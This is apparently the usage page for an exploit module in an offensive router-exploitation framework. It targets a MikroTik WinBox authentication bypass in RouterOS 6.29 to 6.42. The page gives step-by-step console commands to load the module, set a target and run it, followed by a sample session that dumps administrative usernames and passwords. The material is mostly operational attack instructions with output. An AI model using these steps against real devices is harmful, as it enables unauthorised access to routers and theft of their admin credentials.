 ## Description

Module bypass authentication through WinBox service in Mikrotik devices version from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) and retrieves administrative credentials.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable administrative credentials are returned.

## Scenarios

```
rsf > use exploits/routers/mikrotik/winbox_auth_bypass_creds_disclosure
rsf (Mikrotik WinBox Auth Bypass - Creds Disclosure) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Mikrotik WinBox Auth Bypass - Creds Disclosure) > run
[*] Running module...
[*] Connection established
[+] Target seems to be vulnerable
[*] Dumping credentials

   Username     Password
   --------     --------
   user1        test
   admin        admin
   admin        admin

```
